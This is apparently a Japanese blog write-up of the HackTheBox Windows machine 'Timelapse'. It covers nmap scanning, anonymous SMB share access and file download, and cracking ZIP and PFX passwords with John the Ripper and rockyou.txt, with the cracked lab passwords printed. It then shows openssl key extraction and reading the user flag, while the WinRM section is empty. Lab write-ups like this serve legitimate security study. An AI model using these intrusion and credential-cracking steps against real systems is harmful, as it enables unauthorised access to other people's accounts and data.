

+++
draft = false
date = '2025-12-19T23:27:02+09:00'
title = 'HTB: Timelapse'
tags = ['HackTheBox', 'Windows', 'Easy']
+++

## 概要
>  **Machine:** [Timelapse](https://www.hackthebox.com/machines/timelapse)  
>  **OS:** Windows  
>  **Difficulty:** Easy

## ポートスキャン


`nmap`でポートスキャンします。

```bash
sudo nmap -sC -sV <RHOST>
```


`SMBポート(445)`が開いています。

## SMB列挙

`smbclient`で共有フォルダを一覧表示します。

```bash
smbclient -N -L <RHOST>
```

> [!NOTE] メモ
> smbclientの使い方は、[こちらの記事](/posts/pentest-tools/smbclient.md)にまとめています。

`Shares`と`SYSVOL`が見つかります。



`Shares`にアクセスします。

```bash
smbclient -N //<RHOST>/Shares
```

`ls`コマンドで、`Dev`と`HelpDesk`の２つのフォルダが見つかりました。

`mget`コマンドで、`Shares`配下のファイルを一括ダウンロードします。

`exit`コマンドで接続を終了します。

## ZIPファイルのパスワード解析

まずは、`zip2john`でパスワードハッシュを抽出します。

```bash
zip2john htb/timelapse/Dev/winrm_backup.zip > htb/timelapse/winrm_backup.hash
```

`John`でパスワードを解析します。ワードリストに`rockyou.txt`を使用します。

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt htb/timelapse/winrm_backup.hash
```
パスワードは`supremelegacy`であることがわかりました。


## PFXファイルのパスワード解析

`pfx2john`でパスワードハッシュを抽出します。

```bash
pfx2john htb/timelapse/legacyy_dev_auth.pfx > htb/timelapse/legacyy_dev_auth.hash
```

`John`でパスワードを解析します。ワードリストに`rockyou.txt`を使用します。

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt htb/timelapse/legacyy_dev_auth.hash
```

パスワードは`thuglegacy`であることがわかりました。


## 秘密鍵・公開鍵の抽出

```bash
openssl pkcs12 -in htb/timelapse/legacyy_dev_auth.pfx -nocerts -out htb/timelapse/legacyy_dev_auth.key
```

```bash
openssl pkcs12 -in htb/timelapse/legacyy_dev_auth.pfx -nokeys -out htb/timelapse/legacyy_dev_auth.cert
```

## WinRM経由での接続


## userフラグの取得

```bash
type Desktop/user.txt
```